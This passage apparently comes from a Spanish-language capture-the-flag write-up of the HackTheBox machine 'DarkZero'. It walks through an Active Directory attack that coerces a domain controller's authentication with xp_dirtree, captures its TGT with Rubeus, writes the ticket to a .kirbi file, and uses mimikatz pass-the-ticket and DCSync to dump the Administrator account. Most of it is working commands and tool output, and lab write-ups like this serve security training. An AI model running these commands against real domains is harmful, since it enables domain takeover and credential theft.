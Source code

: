 ```js
SQL (darkzero\john.w  guest@master)> EXEC master..xp_dirtree '\\dc02.darkzero.ext\c$'
subdirectory   depth   
------------   -----   
```

Y pronto, recibiremos en el lado de `Rubeus` un TGT:

```js
[*] 10/13/2025 5:07:03 PM UTC - Found new TGT:

  User                  :  DC01$@DARKZERO.HTB
  StartTime             :  10/13/2025 10:06:56 AM
  EndTime               :  10/13/2025 8:06:56 PM
  RenewTill             :  10/20/2025 10:06:56 AM
  Flags                 :  name_canonicalize, pre_authent, renewable, forwarded, forwardable
  Base64EncodedTicket   :

    doIFjDCCBYigAwIBBaEDAgEWooIElDCCBJBhggSMMIIEiKADAgEFoQ4bDERBUktaRVJPLkhUQqIhMB+gAwIBAqEYMBYbBmtyYnRn
    <SNIP!>=
```

Ahora, necesitamos tratar el ticket, que está codificado en Base64, así que lo guardamos en un archivo

```js
[System.IO.File]::WriteAllBytes("C:\windows\temp\dc01.kirbi",[System.Convert]::FromBase64String("doIFjDCCBYigAwIBBaEDAgEWooIElDCCBJBhggSMMIIE<SNIP!>"))
```

Finalmente, sólo tenemos que utilizar `mimikatz` para hacer un `dcsync` sobre el `DC01` para obtener el hash del usuario `Administrador`, o quien quisiéramos en realidad:

```js
PS C:\Windows\Tasks> ./mimikatz.exe "privilege::debug" "kerberos::ptt C:\windows\temp\dc01.kirbi" "lsadump::dcsync /domain:darkzero.htb /user:Administrator" "exit"
  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 19 2022 17:44:08
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz(commandline) # privilege::debug
Privilege '20' OK

mimikatz(commandline) # kerberos::ptt C:\windows\temp\dc01.kirbi

* File: 'C:\windows\temp\dc01.kirbi': OK

mimikatz(commandline) # lsadump::dcsync /domain:darkzero.htb /user:Administrator
[DC] 'darkzero.htb' will be the domain
[DC] 'DC01.darkzero.htb' will be the DC server
[DC] 'Administrator' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)

Object RDN           : Administrator

** SAM ACCOUNT **

SAM Username         : Administrator
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00010200 ( NORMAL_ACCOUNT DONT_EXPIRE_PASSWD )
Account expiration   : 
Password last change : 9/10/2025 9:42:44 AM
Object Security ID   : S-1-5-21-1152179935-589108180-1989892463-500
```